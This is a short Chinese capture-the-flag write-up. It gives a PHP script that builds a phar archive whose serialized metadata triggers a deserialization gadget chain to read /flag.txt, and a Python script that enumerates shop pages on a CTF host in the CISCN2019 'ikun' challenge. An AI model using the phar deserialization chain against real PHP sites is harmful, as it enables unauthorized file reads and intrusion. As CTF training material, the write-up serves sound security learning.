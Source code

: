 构造Exp

```php
<?php
class User {
    public $db;
}
class File {
    public $filename;
}
class FileList {
    private $files;
    public function __construct() {
        $file = new File();
        $file->filename = "/flag.txt";
        $this->files = array($file);
    }
}
 
$a = new User();
$a->db = new FileList();
 
$phar = new Phar("exp.phar"); //后缀名必须为phar
 
$phar->startBuffering();
 
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
 
$o = new User();
$o->db = new FileList();
 
$phar->setMetadata($a); //将自定义的meta-data存入manifest 使用phar://会调用其反序列化
$phar->addFromString("exp.txt", "test"); //添加要压缩的文件（不是利用点
//签名自动计算
$phar->stopBuffering();
?>
```

## 0x02 [CISCN2019 华北赛区 Day1 Web2]ikun

提示拿lv6,找lv6的账号

```python
import requests
url="http://102b7304-c0d2-43a8-9304-0bf80beb692e.node3.buuoj.cn/shop?page="

for i in range(0,2000):
	r=requests.get(url+str(i))
	if 'lv6.png' in r.text:
		print (i)
		break
```
